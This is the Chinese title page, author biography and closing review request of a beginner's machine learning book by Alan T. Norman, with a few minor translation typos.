

### 机器学习实战：外行入门，针对新手的循步渐进指南

#### 机器学习实战

面向外行的入门指南

针对新手的循步渐进指南

Alan T. Norman


### 关于作者

Alan T. Norman 是一位来自旧金山的、自豪、精明且遵守道德的黑客。在获得斯坦福大学理学学学位后，Alan 目前在旧金山中心的一家中型信息技术公司工作。他渴望进入美国政府担任安全黑客，同时也热爱向他人教授技术的未来。Alan 坚信，未来将极度依赖计算机“极客”来确保安全、公司的成功以及未来的职业发展。在空闲时间，他喜欢分析和审视有关篮球运动的一切。

### 最后的一件事...

你喜欢这本书吗？
如果是，请通过在亚马逊上留言来告诉我！
评论是独立作者的生命线。如果你只有一点时间，哪怕只是几个字和一个评分，我也将不胜感激。

如果你不喜欢这本书，请告诉我！
给我发送邮件到 `alannormanit@gmail.com`，并告诉你不不喜欢的地方！
也许我可以进行改进。在当今世界，书籍不必是一成不变的，它可以随着时间和以及你这样的读者的反馈而改进。你可以对这本书产生影响，我欢迎你的反馈。帮助让这本书对每个人都更好！
